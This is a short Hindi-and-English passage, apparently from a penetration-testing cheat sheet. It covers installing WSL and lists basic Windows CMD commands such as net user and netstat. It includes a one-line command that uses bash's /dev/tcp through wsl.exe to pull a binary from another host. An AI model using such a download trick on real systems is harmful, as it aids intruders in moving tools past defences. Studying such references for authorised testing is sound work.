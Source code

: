यदि आपके पास WSL इंस्टॉल नहीं है, तो आपको पहले इसे इंस्टॉल करना होगा। WSL को इंस्टॉल करने के लिए, आपको Windows के संस्करण 1903 या उसके बाद का उपयोग करना होगा और PowerShell में निम्नलिखित कमांड को चलाना होगा:

```plaintext
wsl --install
```

इसके बाद, आपको एक Linux डिस्ट्रीब्यूशन का चयन करना होगा और उसे इंस्टॉल करने के लिए निर्देशों का पालन करना होगा।

ध्यान दें कि WSL केवल Windows 10 के निश्चित संस्करणों में ही समर्थित है। इसलिए, आपको अपने सिस्टम के संस्करण की जांच करनी चाहिए और उचित संस्करण का उपयोग करना चाहिए।
```
wsl.exe --exec bash -c 'cat < /dev/tcp/192.168.1.10/54 > binary'
```
## विविध

### Basic CMD commands for pentesters

### पेंटेस्टर्स के लिए मूल CMD कमांड्स

Here are some basic CMD commands that can be useful for pentesters:

पेंटेस्टर्स के लिए कुछ मूल CMD कमांड्स यहां हैं जो उपयोगी हो सकते हैं:

- **ipconfig**: Displays the IP configuration for all network interfaces.

- **ipconfig**: सभी नेटवर्क इंटरफेस के लिए आईपी कॉन्फ़िगरेशन प्रदर्शित करता है।

- **netstat**: Displays active network connections and listening ports.

- **netstat**: सक्रिय नेटवर्क कनेक्शन और सुनने वाले पोर्ट प्रदर्शित करता है।

- **tasklist**: Lists all running processes.

- **tasklist**: सभी चल रहे प्रक्रियाओं की सूची बनाता है।

- **taskkill**: Terminates a running process.

- **taskkill**: चल रही प्रक्रिया को समाप्त करता है।

- **systeminfo**: Displays detailed information about the computer's hardware and software.

- **systeminfo**: कंप्यूटर के हार्डवेयर और सॉफ़्टवेयर के बारे में विस्तृत जानकारी प्रदर्शित करता है।

- **net user**: Manages user accounts, including creating, modifying, and deleting accounts.

- **net user**: उपयोगकर्ता खातों का प्रबंधन करता है, जिसमें खाते बनाना, संशोधित करना और हटाना शामिल है।

- **net localgroup**: Manages local groups, including creating, modifying, and deleting groups.

- **net localgroup**: स्थानीय समूहों का प्रबंधन करता है, जिसमें समूह बनाना, संशोधित करना और हटाना शामिल है।

- **net share**: Manages shared resources, including creating, modifying, and deleting shares.

- **net share**: साझा संसाधनों का प्रबंधन करता है, जिसमें साझा संसाधन बनाना, संशोधित करना और हटाना शामिल है।
